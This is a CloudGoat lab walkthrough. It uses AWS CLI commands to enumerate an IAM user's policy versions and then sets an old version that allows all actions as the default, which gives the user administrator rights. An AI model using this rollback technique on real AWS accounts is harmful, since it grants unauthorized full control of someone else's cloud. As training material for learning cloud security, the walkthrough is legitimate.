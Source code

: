 Configure an AWS profile with the access tokens and perform basic enumeration.
```bash
aws configure --profile cloudgoat

export AWS_PROFILE=cloudgoat

aws sts get-caller-identity
# "Arn": "arn:aws:iam::0123456789:user/raynor-iam_privesc_by_rollback_cgidtm8l3zv490"
```

The ARN contains the username in the after `:user/`, it will be unique in each deployment.
I'll export it as an environment variable to make the cheat sheet clearer. `export IAM_USERNAME=raynor-iam_privesc_by_rollback_cgidtm8l3zv490`


List the policies attacked to the IAM user
```bash
aws iam list-user-policies --user-name $IAM_USERNAME
# None

aws iam list-attached-user-policies --user-name $IAM_USERNAME
# "PolicyName": "cg-raynor-policy-iam_privesc_by_rollback_cgidtm8l3zv490"
# "PolicyArn": "arn:aws:iam::0123456789:policy/cg-raynor-policy-iam_privesc_by_rollback_cgidtm8l3zv490"
```

export the ARN to another environment variable `export IAM_POLICY_ARN=arn:aws:iam::0123456789:policy/cg-raynor-policy-iam_privesc_by_rollback_cgidtm8l3zv490`


View the different versions on the IAM policy. This feature allows tracking changes made to the policy.

```bash
aws iam list-policy-versions --policy-arn $IAM_POLICY_ARN
# Shows five versions

aws iam get-policy-version --policy-arn $IAM_POLICY_ARN --version-id v1
# v1 is the default version, the permissions currently granted to the user
```

The policy below is the v1 version, it grants "read" access (list & get) as well as the power to switch between versions of policies.

```json
{
    "PolicyVersion": {
        "Document": {
            "Statement": [
                {
                    "Action": [
                        "iam:Get*",
                        "iam:List*",
                        "iam:SetDefaultPolicyVersion"
                    ],
                    "Effect": "Allow",
                    "Resource": "*"
                }
            ]
        },
        "VersionId": "v1",
        "IsDefaultVersion": true
    }
}
```

Looking through the different policy versions `v3` has the following statement.

```json
{
    "PolicyVersion": {
        "Document": {
            "Statement": [
                {
                    "Action": "*",
                    "Effect": "Allow",
                    "Resource": "*"
                }
            ]
        },
        "VersionId": "v3",
        "IsDefaultVersion": false
    }
}
```

Breaking this apart it grants all actions (`"Action": "*"`) to all resources. Since the current policy version grants the ability to change versions let switch to use this.

```bash
aws iam set-default-policy-version --policy-arn $IAM_POLICY_ARN --version-id v3
```

We now have **administrative permissions** and have completed the CloudGoat scenario!
